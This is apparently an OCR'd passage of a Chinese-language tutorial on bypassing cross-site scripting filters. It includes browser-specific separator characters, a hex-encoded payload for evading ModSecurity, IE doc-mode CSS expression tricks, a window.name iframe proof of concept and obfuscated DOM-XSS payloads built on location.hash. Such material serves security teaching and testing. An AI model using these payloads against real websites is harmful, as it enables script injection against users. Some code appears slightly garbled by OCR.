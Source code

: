 	
    IExplorer=     [0x09,0x0B,0x0C,0x20,0x3B]
    Chrome =     [0x09,0x20,0x28,0x2C,0x3B]
    Safari = [0x2C,0x3B]
    FireFox=     [0x09,0x20,0x28,0x2C,0x3B]
    Opera = [0x09,0x20,0x2C,0x3B]
    Android =     [0x09,0x20,0x28,0x2C,0x3B]
    x0b在Mod_security中已经被过滤，绕过的方法：
    <a/onmouseover[\x0b]=location=&#039;\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3A\x61\x6C\x65\x72\x74\x28\x30\x29\x3B&#039;>rhainfosec

缺少X-frame选项

通常会认为X-frame是用来防护点击劫持的配置，其实也可以防护使用iframe引用的xss漏洞

Docmodes

IE引入了doc-mode很长时间，提供给老版本浏览器的后端兼容性，有风险，攻击情景是黑客可以引用你站点的框架，他可以引入doc-mode执行css表达式
```
expression(open(alert(1)))
```
以下POC可以插入到IE7中
```
    <html>
    <body>
    <meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
    <iframesrc="https://targetwebsite.com">
    </body>
    </html>
```
Window.name欺骗

情景：我们用iframe加载一个页面，我们可以控制窗口的名称，这里也可以执行javascript代码

POC
```
    <iframesrc=&#039;http://www.target.com?foo=
    "xss  autofocus/AAAAA  onfocus=location=window.name//&#039;
    name="javascript:alert("XSS")">
</iframe>
```
DOM型XSS

服务器不支持过滤DOM型的XSS，因为DOM型XSS总是在客户端执行，看一个例子：
```
    <script>
    vari=location.hash;
    document.write(i);
    </script>
```
在一些情况下，反射型XSS可以转换成DOM型XSS：
```
  http://www.target.com/xss.php?foo=
  <svg/onload=location=/java/.source+/script/.source+location.hash[1]+
  /al/.source+/ert/.source+location.hash[2]+/docu/.source+
  /ment.domain/.source+location.hash[3]//#:()
```
上面的POC只在`[``.``+`都被允许的情况下适用，可以使用location.hash注入任何不允许的编码
```
        Location.hash[1] = :  // Defined at the first position after     the hash.
        Location.hash[2]= (  // Defined at the second position after     the has
        Location.hash[3] = ) // Defined     at third position after the hash.
```
如果有客户端过滤可能不适用
